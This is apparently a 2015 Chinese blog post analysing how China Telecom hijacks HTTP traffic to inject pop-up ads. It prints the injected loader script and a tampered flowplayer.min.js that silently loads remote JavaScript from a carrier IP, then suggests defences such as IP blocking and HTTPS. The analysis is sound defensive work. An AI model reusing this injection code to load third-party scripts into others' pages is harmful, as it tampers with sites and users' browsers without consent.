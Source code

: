 ```yaml
---
layout: post
title:  "中国电信劫持HTTP流量强插广告"
date:   2015-04-15 22:50:35
categories: Web
---
```


## 现象

家里装的宽带是浙江电信的，在平时用浏览器访问网页时，网页右下角经常弹出浮动广告。常见的广告是这个样子的，很违和吧？

![弹出广告截图](/images/20150415/01.png)

该广告有几个特点：

* 不管是中国还是外国网站，都有可能弹广告。
* 有些知名网站似乎没有弹过广告，比如新浪微博、Stack Overflow。
* 对某一个网站，只在每天第一次访问时弹广告，显示过一次之后，再刷新网页就不会出现了。第二天访问时还可能弹广告。
* 所有的HTTPS站都没有广告。

## 原理分析

### 广告是谁加的

一开始看过几次广告之后，以为是被访问网站自己加的广告联盟之类的代码，第一反应当然是用浏览器的去广告插件屏蔽。通过Chrome查看DOM，发现广告的嵌入代码如下，

```HTML
<script src="http://116.252.178.232:9991/ad.0.js?v=3.9411&amp;sp=9999&amp;ty=dpc&amp;sda_man=XFpdU1RJWFdZXlE=" type="text/javascript" id="bdstat"></script>
```

一般是出现在`</body>`之前，即HTML body的最后。服务器地址116.252.178.232属于广西电信。

当在几个国外网站上弹出了同样的中文广告后，我确定这不是网站自己加的广告代码。Google一下这个IP地址，普遍反映这是ISP劫持HTTP流量，插入的广告。

这种行为更准确的名称叫“[网络直投广告](http://baike.baidu.com/view/6261865.htm)”，百度百科是这样介绍的。

> 网络直投广告是基于中国电信宽带接入网，通过对用户上网行为的分析，在用户上网时、或正在上网的过程中，系统主动、定向、策略性、个性化的向用户推送广告宣传信息。并可以根据用户当前浏览的网站类型，匹配对应的行业关键字，根据行业关键字向用户推送动画、声音、视频、游戏等多媒体交互式广告内容。关键字分类：电脑、通讯、汽车、财经、医药、房产、旅游、教育、人才、美容、电影、游戏、数码等。

所以，这段代码是ISP强行插入的网络直投广告。由于用户访问所有网络都要经过ISP，ISP就有机会给任意网站加广告，把整个网络作为工具为自己牟利。搜索发现不光是电信，联通也有类似行径。某年315还曝光过，之后各地ISP有所收敛，但现在我家浙江电信还是每天都会弹。

### 如何加的广告

用浏览器访问刚才的广告嵌入代码，`http://116.252.178.237:9991/ad.0.js`内容经过格式化后如下，

```Javascript
var bcdata_sp = "";
var sda_man = "";
var bcdata_src = "0";
(function () {
    var a = function (h, f) {
        try {
            var d = document.createElement("span");
            d.innerHTML = h;
            api.writeO(d, f)
        } catch (g) {
            document.write(h)
        }
    };
    var c = function (d, f) {
        if (f) {
            f.appendChild(d);
            f.parentNode.appendChild(d)
        } else {
            var g = f || document.all || document.getElementsByTagName("*");
            var f = g[g.length - 1]
        }
        f.parentNode.appendChild(d)
    };
    var b = document.createElement("script");
    b.type = "text/javascript";
    b.src = "http://116.252.178.237:9991/main.js?ver=v48";
    c(b)
})();
```

这段引导代码在DOM上添加另一个script节点，内容为`http://116.252.178.237:9991/main.js`。`main.js`是弹出广告真正的创建者。

那么`ad.0.js`是何时插入的呢？在不同的网站上，`ad.0.js`节点出现的位置不固定，不一定总在`</body>`之前。继续用Chrome的Network工具查看每个请求的返回数据，发现网页HTML是正常的，并不包含`ad.0.js`节点。推测是某个JS被篡改了，执行的时候在DOM上又插入了广告引导代码节点。

逐个检查`.js`文件的请求，寻找包含“116.252.178.232”的文件。以某网站为例，发现`flowplayer.min.js`文件的内容不正常。该文件是网页上的视频播放器，托管在七牛CDN上。文件的URL是`http://***.qiniudn.com/static/player/flowplayer.min.js`，Chrome里显示返回的内容是这样的，

```Javascript
(function () {
    o = "http://***.qiniudn.com/static/player/flowplayer.min.js?";
    sh = "http://116.252.178.232:9991/ad.0.js?v=3.9411&sp=9999&ty=dpc&sda_man=XFpdU1RJWFdZXlE=";
    w = window;
    d = document;

    function ins(s, dm, id) {
        e = d.createElement("script");
        e.src = s;
        e.type = "text/javascript";
        id ? e.id = id : null;
        dm.appendChild(e);
    };
    p = d.scripts[d.scripts.length - 1].parentNode;
    ins(o, p);
    ds = function () {
        db = d.body;
        if (db && !document.getElementById("bdstat")) {
            if ((w.innerWidth || d.documentElement.clientWidth || db.clientWidth) > 1) {
                if (w.top == w.self) {
                    ins(sh, db, "bdstat");
                }
            }
        } else {
            setTimeout("ds()", 1500);
        }
    };
    ds();
})();
```

可以看到该文件的返回数据完全是被替换过的。这段代码首先在DOM上插入了另外一个`<script>`节点，用于重新加载真正的`flowplayer.min.js`文件。然后创建了广告引导代码节点。在Chrome中，看到`flowplayer.min.js`文件有两次请求，第二次返回的是正确的内容。

新插入的`<script>`位置在document最后一个script的父节点，由于改变了JS文件的执行顺序，所以理论上有可能影响被篡改的网页的正常功能。

关于这套广告系统具体如何选择篡改哪个JS请求，我没有进一步的调查。

### 其他劫持类型

我这里分析的只是浙江电信在目前阶段采用的插广告方法。网上能看到ISP采用的一些旧方法，包括DNS劫持、iframe劫持。

DNS劫持是，例如用户访问Google时，跳转到一个全是广告的页面。还有当访问一个无法解析的网址时，跳转到电信的网址导航站189so.cn，导航站当然是很赚钱的。

iframe劫持也是劫持HTTP流量，将被访问的网页整个包在一个iframe中加载，外面的伪造的页面插弹出广告。用户看到的效果跟本文开头的截图类似。

## 屏蔽方法

### 用户

作为普通用户，一般的建议是打电话给ISP投诉，把客服骂一顿，让ISP取消对你家账号的“特殊服务”。我没试过，也不想试，我得留着广告好看看ISP又采取了什么卑劣手段。

作为普通用户，还可以找个认识的程序员来帮助解决此事。

作为程序员，屏蔽这种广告不是难事。首先用浏览器开发者工具在找出广告引导代码的URL，如果是IP地址，就用路由器或防火墙软件封住该IP的访问；如果是域名，就修改hosts把该域名解析到127.0.0.1即可。

### 网站所有者

作为网站所有者，有没有办法彻底去除ISP强插到你网站上的广告呢？这样不管你的用户有没有屏蔽广告的能力，在访问网站时都不会看到恼人的广告。

第一个可行的办法是HTTPS化，HTTPS请求无法简单的伪造。目前由于网络安全的形势不好，很多网站都做了全站HTTPS化。虽然有一些开销，这毕竟是个最有效的办法。

目前ISP的做法是只劫持JS文件，那一个简便的方法是JS全部放到七牛CDN上，利用七牛提供的HTTPS服务，只把网页上的JS地址换成HTTPS。（该方法未经验证）

另一个可能的方法是在页面上增加JS代码，检测ISP插入的节点并删掉。这种方法的困难在于ISP插广告是分地区的，而且将来会升级的。作为网站所有者，只能针对已知的情况做针对处理，不一定总能有效。
